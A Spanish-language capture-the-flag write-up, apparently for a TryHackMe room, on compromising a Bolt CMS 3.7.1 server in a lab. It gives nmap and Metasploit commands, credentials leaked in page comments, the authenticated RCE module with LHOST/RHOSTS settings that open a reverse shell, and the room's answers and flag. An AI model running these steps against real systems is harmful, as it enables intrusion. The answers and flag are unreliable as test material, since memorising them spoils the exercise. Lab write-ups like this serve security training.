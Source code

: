 # 1) Objetivo

En esta máquina de pentesting web, debemos ir respondiendo a las preguntas que se nos plantean, consiguiendo acceso a la máquina y buscando lo que nos solicitan.

# 2) Preguntas y procedimentos

## a) ¿Qué número de puerto tiene un servidor web con un CMS ejecutándose?

Lo primero que haremos, será realizar un nmap para conocer los puertos abiertos y los servicios que hay en estos, ejecutamos:

```
nmap -sV 10.10.192.108
```

![](IMG/Pasted%20image%2020250310111847.png)

Tenemos tres puertos abiertos, el 22 (SSH), el 80 (servidor web apache) y el 8000 con un servidor web PHP, por lo que el servidor web con cms está en el puerto 8000.

**Respuesta: 8000**
## b) ¿Cuál es el nombre de usuario que podemos encontrar en el CMS?

Si echamos un vistazo a la web, accediendo a 10.10.192.108:8000, veremos en los comentarios que se encuentran en la página principal, veremos que el nombre de usuario es bolt.

![](IMG/Pasted%20image%2020250310112414.png)

**Respuesta: bolt**

## c) ¿Cuál es la contraseña que podemos encontrar para el nombre de usuario?

Del mismo modo que antes, en los comentarios, se nos dice la contraseña.

![](IMG/Pasted%20image%2020250310112521.png)
**Respuesta: boltadmin123**

## d) ¿Qué versión del CMS está instalada en el servidor? (Ej: Nombre 1.1.1)

En la pagina principal, no encontramos nada que nos indique la versión instalada, así que haremos un listado de directorios para ver si encontramos algún panel de administración del cms en el que poder hacer login con las credenciales que tenemos.

Hemos lanzado dirbuster y feroxbuster, pero no nos estan dando muchos resultados y tardan bastante.

![](IMG/Pasted%20image%2020250310130205.png)

Así que mientras esperaba, se me ha ocurrido que como sabemos que el cms es bolt, podría realizar una consulta en internet para averiguar como puedo hacer login en dicho cms, y he encontrado que se accede a través del directorio /bolt.

![](IMG/Pasted%20image%2020250310130323.png)

Probamos, y vemos que efectivamente, podemos hacer login.

![](IMG/Pasted%20image%2020250310130528.png)

Una vez que hemos hecho login, podemos ver en la esquina inferior izquierda del dashboard, la versión del cms.

![](IMG/Pasted%20image%2020250310130824.png)

**Respuesta: Bolt 3.7.1**

## e) Existe un exploit para una versión anterior de este CMS, que permite el acceso remoto autenticado.  Encuéntrelo en Exploit DB. ¿Cuál es su EDB-ID?

Accedemos a la web de [Exploit DB](https://www.exploit-db.com/) y realizamos la búsqueda, en los resultados, vemos un exploit para Bolt cms 3.7.0, accedemos a el para ver los detalles.

![](IMG/Pasted%20image%2020250310131124.png)

Y encontramos el EDB-ID que nos piden.

![](IMG/Pasted%20image%2020250310131407.png)

**Respuesta: 48296**

## f) Metasploit agregó recientemente un módulo de explotación para esta vulnerabilidad. ¿Cuál es la ruta completa de esta explotación? (Por ejemplo: exploit/...)

Nota: Si no puede encontrar el módulo de explotación, lo más probable es que su metasploit no esté actualizado. Ejecute ` apt update` y luego ` apt install metasploit- framework`

Realizamos la búsqueda en metasploit, para lo que ejecutamos:

```
msfconsole
search bolt
```

Y encontramos el exploit al que se nos hace referencia.

![](IMG/Pasted%20image%2020250310131957.png)

**Respuesta: exploit/unix/webapp/bolt_authenticated_rce**

## g) Establezca LHOST, LPORT, RHOST, NOMBRE DE USUARIO, CONTRASEÑA  en msfconsole antes de ejecutar el exploit

Seleccionamos el exploit a usar, en nuestro caso, el 0.

```
use 0
```

![](IMG/Pasted%20image%2020250310132343.png)

Una vez seleccionado, configuraremos las opciones, para ello hacemos:

```
options
```

en nuestro caso, debemos aportar los datos para LHOST, LPORT, RHOST, nombre de usuario y contraseña. (cambiamos a terminator, porque fish no me deja hacer scroll).

![](IMG/Pasted%20image%2020250310132824.png)
![](IMG/Pasted%20image%2020250310132846.png)

Para configurar estos campos usamos:

```
set PASSWORD boltadmin123
set RHOSTS 10.10.192.108
set USERNAME bolt
set LHOST 10.8.16.0
(RPORT LO DEJAREMOS COMO ESTÁ)
```

![](IMG/Pasted%20image%2020250310133116.png)

Una vez configurado, lanzamos el exploit:

```
run
```

Nos da error, he comprobado y es porque la pagina maquina esta dando problemas, la terminamos e iniciamos otra (cambiará la ip).

![](IMG/Pasted%20image%2020250310140358.png)

intentamos de nuevo, repitiendo el proceso con la nueva ip de la máquina objetivo, y ahora sí funciona.

![](IMG/Pasted%20image%2020250310140754.png)

Y ya tendríamos iniciada una shell reversa, con la que podemos ver los directorios de la máquina.

**Respuesta: No aplica.**

## h) Busque flag.txt dentro de la máquina.

Ahora solo tendremos que ir navegando por los directorios hasta encontrar la flag.

![](IMG/Pasted%20image%2020250310140946.png)

que se encuentra en el directorio /home, la abrimos, y tendremos la respuesta.

![](IMG/Pasted%20image%2020250310141240.png)

**Respuesta: THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}**